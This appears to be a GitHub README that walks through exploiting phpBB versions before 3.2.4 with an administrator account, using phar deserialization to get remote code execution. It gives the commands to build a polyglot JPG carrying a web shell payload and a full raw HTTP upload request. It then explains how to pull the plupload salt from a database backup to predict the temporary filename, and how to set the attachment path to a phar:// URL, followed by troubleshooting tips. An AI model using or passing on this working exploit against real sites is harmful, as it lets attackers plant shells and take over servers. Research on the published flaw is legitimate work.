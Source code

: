 # NiceForum

## Exploiting phpBB < 3.2.4 with a super administrator account
Technique taken from the following article. Article also contains technical details regarding the exploitation.  
I am NOT the author of the following article, I have only researched and provided the details to exploit this vulnerability.
https://blog.ripstech.com/2018/phpbb3-phar-deserialization-to-remote-code-execution/  

### Step 1  - Create the payload  
  
Download the following repo  
git clone https://github.com/s-n-t/phpggc.git  
cd phpggc  
git clone https://github.com/RealLinkers/NiceForum  
chmod +x pharggc  
./pharggc -j ./NiceForum/yourawesomepicture.jpg -o polyglotfiletoupload.jpg Guzzle/FW1 /var/www/html/shell.php ./NiceForum/shell.php  

./pharggc -j <yourphoto.jpg> -o <polyglot.jpg> Guzzle/FW1 <your remote directory where the file will be written to> <your local shell file>  
  
 
### Step 2 - Exploiting the forum  
  
1. Upload the attachment and split it into two chunks so it get's uploaded to files/plupload (the temporary storage for chunks). Put all of the payload in the first chunk 0/2 and send it via burp  
```POST /posting.php?mode=reply&f=2&sid=f0cf1836f4751c7d0a7db22b0896065d&t=2 HTTP/1.1
Host: <ip>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://<ip>/posting.php?mode=reply&f=2&t=2&sid=f0cf1836f4751c7d0a7db22b0896065d
x-phpbb-using-plupload: 1
x-requested-with: XMLHttpRequest
Content-Length: 131921
Content-Type: multipart/form-data; boundary=---------------------------807136852579486344452419761
Connection: close

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="name"
o_1d0m7o1d0c9vq5suit1gfp1dspa.jpg

-----------------------------807136852579486344452419761

Content-Disposition: form-data; name="chunk"
0

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="chunks"
2

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="add_file"
Add the file

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="real_filename"
horizon-dawn-real.jpg

-----------------------------807136852579486344452419761
Content-Disposition: form-data; name="fileupload"; filename="blob"
Content-Type: application/octet-stream

�����xt... <content>
-----------------------------807136852579486344452419761
```    
2. Beat the filename randomization by downloading the database backup, the parameter is in the row plupload_salt. ACP -> Maintenance -> Backup  
3. The filename consists of MD5 which is derived from the request's random filename. In this case MD5(o_1d0m7o1d0c9vq5suit1gfp1dspa.jpg)
The whole schema conists of <salt>_<md5>jpg.part  
4. After that navigate to General -> Attachment settings, put in the file path phar://./../files/plupload/<salt>_<md5>jpg.part  
5. In case of succesful exploitation a php file, which contains your shell should be generated on the directory you specified.
  
For a more graphical overview check out the blog post's POC video.  
  
Common errors:    
1. Incorrect file path on the server  
2. The www-data user has no permissions to write to web directory. It will throw an error from Guzzle that permission is denied.  
3. If you would like to customize your shell, it must be a onliner without any </n> line breaks and mustn't contain any <"> characters without proper escaping.  


